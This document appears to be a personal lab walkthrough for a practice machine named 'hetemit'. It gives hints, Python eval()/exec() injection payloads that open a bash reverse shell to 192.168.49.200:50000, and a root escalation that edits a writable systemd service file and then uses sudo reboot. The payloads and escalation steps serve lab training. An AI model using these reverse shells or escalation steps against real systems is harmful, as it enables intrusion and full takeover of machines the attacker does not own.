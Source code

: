### Hints since I'm in rush

There are two webapps running on non-standard ports.

Focus on the /verify endpoint. Try different inputs in the code parameter.

Look at writable files and check your sudo permissions. 

### Webapps
`?code=XXX` first then change/covert to POST

1+1 to discover the SSRF

https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1

##### Exec()

exec() is similar to eval() as they both have the ability to execute Python code from a given string input. The following program could be exploited in the same way as above:
```
def addition(a, b):
  return exec("%s + %s" % (a, b))addition(request.json['a'], request.json['b'])
  ```
##### Eval()
```payloads for Eval()
"a":"__import__('os').system('bash -i >& /dev/tcp/192.168.49.200/50000 0>&1')#", "b":"2"
"__import__('os').system('bash -i >& /dev/tcp/192.168.49.200/50000 0>&1')#"
__import__('os').system('bash -i >& /dev/tcp/192.168.49.200/50000 0>&1')#
__import__('os').system('bash -i >& /dev/tcp/192.168.49.200/50000 0>&1') <--- working
```

### Foothold

```bash
[cmeeks@hetemit restjson_hetemit]$ pwd
pwd
/home/cmeeks/restjson_hetemit
```

### sudo -l
https://security.stackexchange.com/questions/246288/sudo-usr-sbin-halt-usr-sbin-reboot-usr-sbin-poweroff-how-to-leverag

The answer can be simple. Just like how you're doing privilege escalation by using cronjobs. You find a writable file and put your payload in then wait.

`sudo -l` gives "/usr/sbin/halt", "/usr/sbin/reboot", "/usr/sbin/poweroff" that means one thing here. You can reboot the machine as ROOT.

So, you need to look for some writable configuration files that trigger when start/reboot. `find . -writable` on /etc or just run linpeas.

The file is most likely owned by root. But read and writable in our favour. e.g.
```
ls -lh /etc/systemd/system/some.service
-rw-rw-r-- 1 root rob /etc/systemd/system/some.service
```
Maybe the file is running by root, then you find the exec line add `ExecXXX: you evil payload here`.

Or change the runner of it if that's not triggered by root in default. `User: low_level_user -> root`

### Find all files that are writable by the current user
```bash
find . -writable
```
```
ls -lh /etc/systemd/system/pythonapp.service
-rw-rw-r-- 1 root cmeeks 299 Sep 19 03:17 /etc/systemd/system/pythonapp.service
```

You have write privileges over /etc/systemd/system/pythonapp.service

re-shell got root
